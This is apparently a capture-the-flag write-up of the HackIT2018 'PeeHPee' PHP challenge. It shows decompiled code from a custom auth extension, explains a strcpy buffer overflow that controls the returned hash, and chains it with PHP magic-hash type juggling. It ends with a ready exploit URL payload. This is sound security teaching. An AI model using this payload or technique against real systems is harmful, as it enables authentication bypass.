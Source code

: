 This challenge is a  PHP Challenge with source code access and an extension, that implemented a custom auth function 
The extension wasn't stripped so we could easily disasemble and figure out what's happening in IDA :

Auth function :
```C
Php::Parameters *__fastcall auth(Php::Parameters *a1, __int64 a2)
{
  __int64 v2; // rax@1
  const char *v3; // rax@1
  Php::Parameters *result; // rax@1
  __int64 v5; // rbx@1
  char dest; // [sp+10h] [bp-60h]@1
  char v7[8]; // [sp+30h] [bp-40h]@1
  __int64 v8; // [sp+58h] [bp-18h]@1

  v8 = *MK_FP(__FS__, 40LL);
  strcpy(v7, "21232f297a57a5a743894a0e4a801fc3");
  LODWORD(v2) = std::vector<Php::Value,std::allocator<Php::Value>>::operator[](a2, 1LL);
  LODWORD(v3) = Php::Value::operator char const*(v2);
  strcpy(&dest, v3);
  Php::Value::Value(a1, v7, -1);
  result = a1;
  v5 = *MK_FP(__FS__, 40LL) ^ v8;
  return result;
}
```

The strcpy call will copy the second argument to the dest buffer, no size checking so this is a clear buffer overflow.  
The function will return what's in v7 array which is by default initialized as "21232f297a57a5a743894a0e4a801fc3".  
The space between v7 and dest is ($bp-0x40) - ($bp-0x60) = 0x20 so if we write more than 0x20(32) chars into the dest buffer we can overflow the v7 buffer , thus controlling what's the function is returning.  
Now let's move to the php bug, which is a trivial php type juggling, and since we control $digest value, we can make it equal to magic hash value, and exploit the type juggling vulnerability at the [line](https://github.com/DefConUA/HackIT2018/blob/master/web/PeeHPee/index.php#L17):  
Using : http://host/?u=240610708&p=AAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBQNKCDZO
